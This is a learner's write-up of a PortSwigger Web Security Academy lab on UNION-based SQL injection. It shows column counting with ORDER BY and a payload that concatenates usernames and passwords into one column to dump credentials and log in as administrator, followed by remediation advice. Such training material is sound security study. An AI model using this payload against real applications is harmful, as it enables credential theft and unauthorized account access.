


# Lab: SQL Injection UNION Attack, Retrieving Multiple Values in a Single Column

> **Platform:** PortSwigger Web Security Academy  
> **Module:** SQL Injection  
> **Lab:** SQL injection UNION attack, retrieving multiple values in a single column  
> **Lab Link:** https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-multiple-values-within-a-single-column/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column  
> **Goal:** Perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

---

## 1. Lab Goal

The goal of this lab was to exploit a SQL injection vulnerability in the product category filter using a `UNION` attack to retrieve both usernames and passwords from the `users` table within a single string-compatible column, and then log in as the `administrator` user.

---

## 2. Given Information

The lab gave the following information:

- The application contains a SQL injection vulnerability in the product category filter.
- The results from the query are returned in the application's response, allowing the use of a `UNION` attack.
- The database contains a table called `users`, with columns called `username` and `password`.
- To solve the lab, we need to retrieve the `administrator` credentials and log in to their account.

---

## 3. Vulnerability Summary

The application concatenates the user-supplied `category` parameter from the URL query string directly into a backend `SELECT` SQL query without sanitization or parameterization. Although the query returns 2 columns, only one column is suitable for rendering text data on the page. By using the SQL string concatenation operator (`||`), an attacker can combine multiple fields (`username` and `password` separated by `'-'`) into that single text column and dump all user credentials in the HTTP response.

---

## 4. Observation

When filtering the products by clicking on the `Lifestyle` category, the URL looks like this:

```text
https://0a9b004803f2b623812d2ff20028006c.web-security-academy.net/filter?category=Lifestyle
```



In the backend database, this parameter is likely being parsed inside a query like:

```sql
SELECT * FROM products WHERE category = 'Lifestyle'
```

---

## 5. Initial Testing (Confirming Column Count via ORDER BY)

Following the same simple procedure as before, I used the `ORDER BY` technique to determine how many columns were returned by the query:

- Testing `ORDER BY 1 --` and `ORDER BY 2 --` succeeded without errors.
- Testing `ORDER BY 3 --` triggered an error, which confirmed that the returning table has **2 columns**.

In this lab, the first column is not rendered as text (likely an ID column), while the second column holds and displays string data.

---

## 6. Exploiting the Vulnerability

Since there are 2 columns and only the second column displays strings, I could not select `username` and `password` into two separate columns like in the previous lab. Instead, I put `NULL` in the first column and concatenated `username` and `password` together (separated by a hyphen `'-'`) inside the second column using the `||` operator:

```text
https://0a9b004803f2b623812d2ff20028006c.web-security-academy.net/filter?category=Lifestyle'%20UNION%20SELECT%20NULL,username||'-'||password%20FROM%20users%20--
```

This generated the following backend SQL query:

```sql
SELECT * FROM products WHERE category = 'Lifestyle' UNION SELECT NULL,username||'-'||password FROM users --'
```



The query executed and appended the concatenated `username-password` strings directly into the product table on the page. Once I found the `administrator` credentials in the resulting table, I navigated to the login page, logged in as `administrator`, and solved the lab.

---

## 7. Correct Testing Approach

1. Filter by a category (such as `Lifestyle`) to observe the URL parameter and page structure.
2. Determine the number of columns returned by the query using `ORDER BY` (confirming 2 columns).
3. Identify which column accepts and renders string data (column 2), while keeping non-string columns as `NULL` (column 1).
4. Use string concatenation (`username||'-'||password`) to retrieve multiple values within the single text-compatible column.
5. Extract the `administrator` password and log in.

---

## 8. Exploitation Steps

1. Selected the `Lifestyle` category filter and observed `/filter?category=Lifestyle`.
2. Tested `ORDER BY` clauses and found that the query returns **2 columns**.
3. Constructed and sent the `UNION` payload with string concatenation in the second column: `' UNION SELECT NULL,username||'-'||password FROM users --`.
4. Retrieved the `administrator` username and password from the resulting table on the page.
5. Logged in to the `administrator` account to solve the lab.

---

## 9. Evidence

### Normal Category Filter URL
```text
https://0a9b004803f2b623812d2ff20028006c.web-security-academy.net/filter?category=Lifestyle
```

### Working Exploit Payload (URL-Encoded)
```text
https://0a9b004803f2b623812d2ff20028006c.web-security-academy.net/filter?category=Lifestyle%27%20UNION%20SELECT%20NULL,username||%27-%27||password%20FROM%20users%20--
```

### Resulting Backend SQL Query
```sql
SELECT * FROM products WHERE category = 'Lifestyle' UNION SELECT NULL,username||'-'||password FROM users --'
```

---

## 10. Why This Worked

When performing a `UNION` SQL injection attack, you are restricted by the number and data types of the columns in the original query. Here, the original query returned 2 columns, where the first column likely expected an integer (such as a product ID) and the second column expected a string.

By placing `NULL` in the first column (since `NULL` is compatible with any data type) and using the SQL concatenation operator `||` (`username||'-'||password`) in the second column, the database combined both values into a single `VARCHAR`/`TEXT` result per row, allowing both fields to be extracted through a single output column.

---

## 11. Remediation / Fix

To prevent SQL injection vulnerabilities, the application should:

- **Use Parameterized Queries (Prepared Statements):** Ensure the `category` parameter is passed as a bound parameter so user input is treated strictly as a literal value and cannot inject `UNION SELECT` statements.
- **Principle of Least Privilege:** Restrict the database user permissions so the web application's catalogue query cannot read from the `users` table.
- **Hash Passwords:** Store passwords using strong cryptographic hashes (e.g., bcrypt or Argon2) rather than plaintext.

---

## 12. Lessons Learned

- Even if only a single column in a `UNION` query supports text data, you can still extract multiple columns from other tables at once by concatenating them together (e.g., using `||` in PostgreSQL/Oracle).
- Adding a delimiter like `'-'` or `'~'` between concatenated columns makes it much easier to read and separate the extracted usernames and passwords in the output.

---

## 13. Final Summary

In this lab, I exploited a SQL injection vulnerability in the `Lifestyle` category filter where only one of the 2 returned columns could render text. After confirming the 2-column structure via `ORDER BY`, I injected `' UNION SELECT NULL,username||'-'||password FROM users --` to concatenate usernames and passwords into the second column. This dumped all user credentials into the product table, allowing me to log in as `administrator` and solve the lab.
